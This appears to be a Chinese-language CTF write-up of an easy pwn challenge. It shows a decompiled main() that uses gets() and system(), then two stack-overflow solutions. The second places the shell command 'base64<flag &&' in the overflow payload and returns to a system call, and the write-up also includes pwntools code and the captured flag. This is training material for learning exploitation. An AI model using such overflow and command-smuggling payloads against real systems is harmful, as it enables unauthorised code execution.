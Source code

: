 
## PWN_签到 (344pt)
- 题目描述：
    
    > none
- 题目附件：[pwn0](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/pwn0/pwn0)
- 考察点：bof、bash
- 难度：简单

### 程序分析

`main`程序就是入门的栈溢出，还给了`system`函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char v4; // [rsp+0h] [rbp-20h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  gets(&v4, 0LL);
  system("echo hello wrold!");
  return 0;
}
```

参数`sh`也给了：

```c
pwndbg> search sh
pwn0            0x601040 0x6873 /* 'sh' */
```

### 解题思路

#### 解法1

直接执行`system("sh")`的时候虽然拿到了shell，但是shell做了过滤，不能用cat和空格，于是用`base64<flag`输出flag:

```c
[*] Switching to interactive mode
[DEBUG] Received 0x79 bytes:
    "/bin/bash: line 1: unexpected EOF while looking for matching ``'\n"
    '/bin/bash: line 2: syntax error: unexpected end of file\n'
/bin/bash: line 1: unexpected EOF while looking for matching ``'
/bin/bash: line 2: syntax error: unexpected end of file
$ base64<flag
[DEBUG] Sent 0xc bytes:
    'base64<flag\n'
[DEBUG] Received 0x3d bytes:
    'ZmxhZ3tkNzVmODU0Ny1kOTZjLTQ2ZTUtYjZlOC05ZmMxYWJmYjc3MDh9Cg==\n'
ZmxhZ3tkNzVmODU0Ny1kOTZjLTQ2ZTUtYjZlOC05ZmMxYWJmYjc3MDh9Cg==
```

#### 解法2

还有一种解法就是不用给的`sh`，直接去执行`base64<flag`

```python
offset = cyclic_find(0x6161616b)
payload = 'base64<flag && '.ljust(offset,'a')
payload += p64(0x400653) # call system
sl(payload)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/pwn0)
